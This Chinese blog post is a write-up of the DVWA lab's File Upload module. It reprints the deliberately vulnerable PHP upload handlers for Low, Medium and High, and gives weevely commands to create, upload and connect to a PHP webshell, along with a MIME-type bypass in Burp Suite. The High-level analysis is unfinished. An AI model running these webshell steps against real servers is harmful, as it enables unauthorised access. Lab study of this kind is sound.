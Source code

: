 ```yaml
---
layout:     post
title:      DVWA靶机学习——File Upload(文件上传)
subtitle:   这个系列是学习DVWA靶机的。今天学习File Upload的Low、Medium、High、Impossible级别。
date:       2020-07-15
author:     HouKC
header-img: img/post-bg-coffee.jpeg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```



## 0x00 File Upload(文件上传)
File Upload即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得可以通过上传webshell获取服务器权限，因此文件上传漏洞带来的危害常常是毁灭性的。


## 0x01 Low
#### 源码分析
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```
basename(path, suffix)返回path中的文件名部分，如果可选参数suffix为空，则返回的文件名中包含后缀名，反之不包含后缀名。

这里并没有过滤文件后缀名或其他防御措施。

#### 解题思路
直接上传webshell，用菜刀或weevely连接。
weevely 生成webshell。
kali Linux终端输入：
```
weevely generate pass 1.php		# 在当前路径下生成1.php文件，密码是pass

然后到DVWA上传1.php文件，再到终端输入：
weevely "http://ip地址/dvwa/hackable/uploads/1.php" pass
连接后输入：
system_info		# 可以查看系统信息
shell_sh [cmd]	# cmd是shell命令，如dir
...
```


## 0x02 Medium
#### 源码分析
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
在Low级别的基础上，多判断了HTTP头中的MIME类型，并限制了文件大小为10000字节。

#### 解题思路
上传文件的时候Burpsuite拦截，修改MIME类型为image/jpeg或image/png即可，即修改HTTP头的第二个Content-Type为image/jpeg或image/png。

weevely 生成webshell。
kali Linux终端输入：
```
weevely generate pass 1.php		# 在当前路径下生成1.php文件，密码是pass

然后到DVWA上传1.php文件，再到终端输入：
weevely "http://ip地址/dvwa/hackable/uploads/1.php" pass
连接后输入：
system_info		# 可以查看系统信息
shell_sh [cmd]	# cmd是shell命令，如dir
...
```


## 0x03 High
#### 源码分析
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
待补充。

#### 解题思路
待补充。

weevely 生成webshell。
kali Linux终端输入：
```
weevely generate pass 1.php		# 在当前路径下生成1.php文件，密码是pass

然后到DVWA上传1.php文件，再到终端输入：
weevely "http://ip地址/dvwa/hackable/uploads/1.php" pass
连接后输入：
system_info		# 可以查看系统信息
shell_sh [cmd]	# cmd是shell命令，如dir
...
```

